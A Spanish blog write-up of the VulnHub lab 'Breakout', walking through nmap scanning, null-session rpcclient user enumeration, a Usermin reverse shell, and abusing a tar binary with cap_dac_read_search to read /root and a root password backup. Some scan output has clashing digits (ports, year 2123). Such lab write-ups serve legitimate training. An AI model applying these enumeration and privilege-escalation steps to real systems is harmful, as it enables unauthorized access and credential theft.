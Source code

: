 ```yaml
---
layout: single
title: ImpereBreakout - VulnHub
excerpt: "Impere-breakout es una máquina vulnerable en VULNHUB. En este escenario, nos enfrentamos a una contraseña ofuscada mediante lenguaje esotérico. Posteriormente, nuestro objetivo es descubrir un usuario correspondiente a la contraseña encontrada. En este proceso, utilizaremos rpcclient para identificar un usuario válido.Después, aprovecharemos la capacidad (capability) cap_dac_read_search para acceder como usuario root."
date: 2023-11-10
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - capability
  - rpcclient
  - lenguajeEsotérico
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Impere-breakout es una máquina vulnerable en VULNHUB. En este escenario, nos enfrentamos a una contraseña ofuscada mediante lenguaje esotérico. Posteriormente, nuestro objetivo es descubrir un usuario correspondiente a la contraseña encontrada. En este proceso, utilizaremos rpcclient para identificar un usuario válido.Después, aprovecharemos la capacidad (capability) cap_dac_read_search para acceder como usuario root.


## Enumeracion

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Mon Nov  6 14:58:16 2123 as: nmap -sCV -p81,139,445,11111,21111 -oN vulnscan.nmap 192.168.56.21
Nmap scan report for 192.168.56.21
Host is up (1.11126s latency).

PORT      STATE SERVICE     VERSION
81/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
11111/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 211 &mdash; Document follows
21111/tcp open  http        MiniServ 1.831 (Webmin httpd)
|_http-title: 211 &mdash; Document follows
MAC Address: 18:11:27:1E:E1:12 (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: -3h11m11s
| smb2-time: 
|   date: 2123-11-16T14:58:27
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: 111111111111 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 14:58:58 2123 -- 1 IP address (1 host up) scanned in 42.42 seconds
```


## Analisis 

Inicializamos la enumeración por el servicio 80(HTTP).Si nos ubicamos al final de la página, identificaremos una cadena en lenguaje esotérico.


![](/assets/images/vulnhub-writeup-impereBreakout/lenguajeEsoterico.png)

Colocamos la cadena en lenguaje esotérico en una búsqueda en Google para determinar su uso, y así descubrimos que está codificada en Brainfuck.

![](/assets/images/vulnhub-writeup-impereBreakout/BuscarElTipoDeLenguaje.png)

Al decodificar tenemos una cadena de caracteres que aparenta ser una contraseña.

```bash
.2uqPEfj3D<P'a-3
```

Los servicios en los puertos 10000 (HTTPs) y 20000 (HTTPs) son específicamente interfaces de inicio de sesión. Para avanzar, necesitamos encontrar un usuario. Es importante tener en cuenta que ambas páginas web no permiten ataques de fuerza bruta.

### ¿Qué hacer?

Intentamos iniciar sesión en RPC como usuarios nulos y tenemos éxito.

```bash
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "srvinfo"
	BREAKOUT       Wk Sv PrQ Unx NT SNT Samba 4.13.5-Debian
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03
```

En rpcclient, hemos utilizado el parámetro llamado "lookupnames" para identificar usuarios del sistema. Esta acción nos ha proporcionado tanto el SID como el RID asociados al usuario identificado.

```bash
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "lookupnames root"
root S-1-22-1-0 (User: 1)
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "lookupnames www-data"
www-data S-1-22-1-33 (User: 1)
```

- El RID es un identificador único representado en hexadecimal para rastrear e identificar objetos.
- El SID consta de una cadena única de números y caracteres que representa de manera exclusiva un objeto de seguridad en un dominio

![](/assets/images/vulnhub-writeup-impereBreakout/SIDRID.png)

Podemos establecer que los SIDs para los usuarios del sistema siguen la estructura "S-1-22-1-RID (Identificador del usuario)". Por lo tanto, planeo realizar un enfoque similar a la fuerza bruta para descubrir la mayoría de los usuarios. Otra opción sería probar con una lista predefinida de usuarios y utilizar la función lookupnames, aunque este método podría requerir más tiempo.

![](/assets/images/vulnhub-writeup-impereBreakout/script-rpcclient-bash.png)

Lo que ejecuta cada función

![](/assets/images/vulnhub-writeup-impereBreakout/expresionesregularesEx.png)

## Shell-Cyber 

Utilizamos el ultimo usuario para iniciar sesión en Usermin

![](/assets/images/vulnhub-writeup-impereBreakout/login-Usermin.png)

Una vez iniciado sesión, nos dirigimos a esta parte para entablar una reverse shell.

![](/assets/images/vulnhub-writeup-impereBreakout/shell.png)

Una vez dentro del sistema, vemos un archivo interesante, llamado TAR. por lo que procedemos a listar sus capabilities.

![](/assets/images/vulnhub-writeup-impereBreakout/getcapTar.png)

Si buscamos la capabilitie en hacktricks vemos lo siguiente.

![](/assets/images/vulnhub-writeup-impereBreakout/gtfsbins.png)

Al parecer tenemos acceso a través del programa TAR, a cual quier archivo del programa por lo que procedo a traer toda la carpeta /root/. 

```bash
cyber@breakout:~/priv$ ../tar -czvf root.tar /root/
../tar: Removing leading `/' from member names
/root/
/root/.tmp/
/root/.spamassassin/
/root/.bash_history
/root/.profile
/root/.bashrc
/root/.usermin/
/root/.usermin/procmail/
/root/.usermin/mailbox/
/root/.usermin/mailbox/dsnreplies.pag
/root/.usermin/mailbox/dsnreplies.dir
/root/.usermin/mailbox/delreplies.dir
/root/.usermin/mailbox/delreplies.pag
/root/.usermin/spam/
/root/.usermin/filter/
/root/rOOt.txt
/root/.local/
/root/.local/share/
/root/.local/share/nano/
```
En el .bash_history vemos algo interesante, al parecer esta depositando la contraseña de root en un archivo.

![](/assets/images/vulnhub-writeup-impereBreakout/history-root.png)

Estamos en lo correcto.

```bash
cyber@breakout:~/priv/var/backups$ cat .old_pass.bak 
Ts&4&YurgtRX(=~h
cyber@breakout:~/priv/var/backups$ 
```
Logrado.

![](/assets/images/vulnhub-writeup-impereBreakout/root-pass.png)
